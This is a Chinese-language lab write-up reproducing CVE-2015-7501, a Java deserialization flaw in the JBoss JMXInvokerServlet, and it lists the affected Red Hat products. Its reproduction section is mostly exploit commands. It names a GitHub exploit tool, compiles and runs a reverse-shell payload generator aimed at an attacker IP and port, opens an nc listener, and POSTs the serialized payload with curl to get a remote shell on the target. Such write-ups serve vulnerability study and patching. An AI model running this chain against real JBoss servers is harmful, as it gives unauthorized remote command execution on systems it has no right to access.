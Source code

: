 （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞
=====================================================

一、漏洞简介
------------

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

二、漏洞影响
------------

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS
6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV)
6.x版本和5.x版本；Enterprise Application Platform
6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW)
6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA
Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat
OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.151:8080/invoker/JMXInvokerServlet>
返回如图，说明接口开发，存在反序列化漏洞

![](./resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId27.png)

打开nc界面，发现shell已经弹回来了

![](./resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId28.png)
